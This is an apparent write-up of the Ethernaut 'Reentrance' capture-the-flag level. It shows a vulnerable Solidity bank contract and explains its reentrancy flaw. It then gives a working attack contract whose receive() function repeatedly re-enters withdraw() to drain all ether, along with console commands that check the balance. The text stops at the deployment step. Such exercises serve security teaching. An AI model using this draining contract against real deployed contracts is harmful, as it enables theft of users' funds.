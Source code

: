 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel10.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
Challenge's message.

>The goal of this level is for you to steal all the funds from the contract.Things that might help:
Untrusted contracts can execute code where you least expect it.
Fallback methods
Throw/revert bubbling
Sometimes the best way to attack a contract is with another contract.

We have a basic smart contract that performs the banking function. The first thing we look at is it uses the SafeMath library for the type of uint256 variables because of prevents Integer Underflow vulnerability. Also, it has a defined public mapping named **balances** to document the address's balances in the contract. After that, there is **donate()** function to increase the address's balance. And then, we can learn someone's balance with the help of **balanceOf()** method. And finally, we have **withdraw()** function to withdraw the amount from our balance. 

However, there is something in the crash. We will talk about the next part :> In the end of the code, there is a candy. Usually, **receive()** functions are used to get ether for the contract with the low-level contract interaction. In this case, it is left blank. Why?

# Subverting

When we look at the target code from the hacker's perspective, we can clearly show in the withdraw function; the contract updated the balance after sending the amount to the user's address. What's wrong? In the design pattern, devs might think that contract always sends the amount to the user balance only once. Hereby, updating works correctly. But, in the end of the code a **receive()** function which is payable and left bank. It helps us to low level interaction to our attack contract when we want get some ether more. What is more, if we abuse this case to send ether to our address more than once, what will happen?

The entire amount in the contract will be transferred to the attacker's account. Brainful, isn't it? I explained this vulnerability so detail in my [reentrancy repository](https://github.com/wasny0ps/Reentrancy). I strongly recommend this article to understand reentrancy more clearly and learn how to prevent this vulnerability. Let's look our attack contract.

```solidity
pragma solidity ^0.8.17;

interface IReentrancy{

    function donate(address _to) external payable;
    function withdraw(uint _amount) external;

}

contract Attack{

    IReentrancy target;

    constructor(address  _target) {
        target = IReentrancy(_target);
    }

    function attack() external payable{
        target.donate{value: msg.value}(address(this));
        target.withdraw(msg.value);
    }

    receive()external payable{
        if(address(target).balance >= 0.001 ether){
            target.withdraw(0.001 ether);
        }
    }
}
```
Before explain our attack contract, check target contract's balance.
```shell
await getBalance(contract.address)
'0.001'
```
We learned entire amouunt in target contract as **0.001 ether**. Let's convert it to wei.

```shell
await web3.utils.toWei('0.001','ether')
1000000000000000
```
After converting it to wei, it's time to explain the attack contract. First of all, this contract is a little bit different than other attack contracts. Because we used the **interface()** method to interact with other contracts easily. Also, before you use the interface, you must add into the interface method the same functions which are in the contract that we want to interact with. Otherwise, you will get an error. That's why, we use an interface to interact with the target contract. After that, get an instance of the target contract with enter the target contract's address in the constructor. 

In the **attack()** contract, it calls donate function and adds some value to our address's balance. In the next step, get ether back from the target contract. When the target contract sends **msg.value** to our attack contract, our **receive()** function welcomes the transaction. And then it calls **withdraw()** function again and again until target's balance less equal than 0.001 ether. While this process, target contract won't be updated the new balance. Thus, we get all money from the target contract. 🤑 

Let's bum out. Deploy the attack contract.
